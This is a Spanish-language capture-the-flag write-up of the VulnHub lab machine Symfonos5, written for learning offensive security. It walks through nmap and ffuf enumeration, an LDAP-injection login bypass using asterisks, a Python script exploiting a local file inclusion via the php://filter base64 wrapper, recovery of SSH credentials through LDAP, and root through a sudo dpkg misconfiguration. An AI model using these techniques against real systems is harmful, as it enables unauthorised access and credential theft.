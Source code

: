 ```yaml
---
layout: single
title: Symfonos5 - VulnHub
excerpt: "Symfonos5, una máquina vulnerable de VulnHub, presenta una vulnerabilidad de inyección LDAP que pudimos eludir en el inicio de sesión. Luego, a través de una vulnerabilidad de inclusión local de archivos (LFI), conseguimos obtener credenciales que nos permitieron autenticarnos en el servicio LDAP expuesto. Tras analizar el servicio, identificamos credenciales que utilizamos para iniciar sesión como el usuario 'zeus' a través de SSH. La escalada de privilegios se logró directamente a root mediante un error en la configuración de sudoers, al incluir una aplicación que nos proporcionó una shell."
date: 2023-11-04
classes: wide
header:
  teaser: /assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png
  teaser_home_page: true
categories:
  - vulnhub 
  - cxdxnt
tags:  
  - suid
  - rpcbind
  - mount
---
```

![](/assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png)

Symfonos5, una máquina vulnerable de VulnHub, presenta una vulnerabilidad de inyección LDAP que pudimos eludir en el inicio de sesión. Luego, a través de una vulnerabilidad de inclusión local de archivos (LFI), conseguimos obtener credenciales que nos permitieron autenticarnos en el servicio LDAP expuesto. Tras analizar el servicio, identificamos credenciales que utilizamos para iniciar sesión como el usuario 'zeus' a través de SSH. La escalada de privilegios se logró directamente a root mediante un error en la configuración de sudoers, al incluir una aplicación que nos proporcionó una shell.



## Enumeración

Empezamos con un reconocimiento de puertos y servicios a través de la herramienta nmap. En el cual logramos detectar varios servicios.

```bash
# Nmap 7.93 scan initiated Fri Nov  3 06:59:59 2023 as: nmap -sCV -p22,80,389,636 -oN vulnscan.nmap 192.168.56.16
Nmap scan report for 192.168.56.16
Host is up (0.00027s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 1670137722f96878400d2176c1505423 (RSA)
|   256 a80623d093187d7a6b05778d8bc9ec02 (ECDSA)
|_  256 52c08318f4c738655ace9766f375684c (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
636/tcp open  ldapssl?
MAC Address: 08:00:27:ED:4A:23 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  3 07:00:12 2023 -- 1 IP address (1 host up) scanned in 12.29 seconds
```

## Analisis 

La enumeración central empezara por el servicio http.


```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://192.168.56.16/FUZZ" -e .php,.txt,.html -t 200 -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.16/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Extensions       : .php .txt .html 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

index.html              [Status: 200, Size: 207, Words: 18, Lines: 19, Duration: 33ms]
home.php                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 38ms]
admin.php               [Status: 200, Size: 1650, Words: 707, Lines: 40, Duration: 3ms]
static                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 19ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 118ms]
portraits.php           [Status: 200, Size: 165, Words: 10, Lines: 4, Duration: 36ms]
                        [Status: 200, Size: 207, Words: 18, Lines: 19, Duration: 23ms]
.html                   [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 31ms]
.php                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 80ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 26ms]
```

Al examinar el archivo admin.php, notamos la presencia de un panel de inicio de sesión. Dada la utilización de LDAP, suponemos que el proceso de inicio de sesión está gestionado por este protocolo. Por lo tanto, llevamos a cabo un bypass, simplemente ingresando un asterisco tanto en el campo de usuario como en el de contraseña.

![](/assets/images/vulnhub-writeup-symfonos5/symfonos5-login.png)

 Si nos dirigimos a portraits podemos ver un potencial LFI.

![](/assets/images/vulnhub-writeup-symfonos5/symfonos5-nose.png)

La aplicación es vulnerable a una Inclusión Local de Archivos (LFI), por lo que optaremos por utilizar un wrapper que codifica el contenido de un archivo en base64. En este sentido, desarrollaré un script en Python para facilitar la lectura de archivos y agilizar el proceso.

```python
import requests,re,sys,base64

url="http://192.168.56.16/home.php?url=php://filter/convert.base64-encode/resource=" + sys.argv[1]
cookie = {"PHPSESSID":"dpao5t9vo0cuphgelo2mk3qf7v"}
regex = re.findall(r"<center>(.*?)</center>",requests.get(url,cookies=cookie).text,re.DOTALL)[0]
print(base64.b64decode(regex).decode())
```

Como primer paso, procedemos a determinar la ubicación de los archivos. Para ello, accederé al archivo /etc/apache2/sites-enabled/000-default.conf.

![](/assets/images/vulnhub-writeup-symfonos5/symfonos5-rutaWeb.png)

Analizamos el archivo admin.php para ver como gestiona la verificación de credenciales.

![](/assets/images/vulnhub-writeup-symfonos5/symfonos5-credenciales.png)

Nos logeamos en ldap para ver alguna información adiccional y vemos lo siguiente.

![](/assets/images/vulnhub-writeup-symfonos5/symfonos5-sshcredenciales.png)

Realizamos una prueba para verificar si las credenciales de 'zeus' son válidas para SSH.

![](/assets/images/vulnhub-writeup-symfonos5/symfonos5-conectarSsh.png)

La escalada de privilegios es bastante sencilla; ejecutamos 'sudo -l'.

```bash
zeus@symfonos5:~$ sudo -l
Matching Defaults entries for zeus on symfonos5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zeus may run the following commands on symfonos5:
    (root) NOPASSWD: /usr/bin/dpkg
```

Ejecutamos las instrucciones que nos indica gtfbins

![](/assets/images/vulnhub-writeup-symfonos5/symfonos5-gtfbins.png)

## Shell - Root 

![](/assets/images/vulnhub-writeup-symfonos5/symfonos5-root.png)
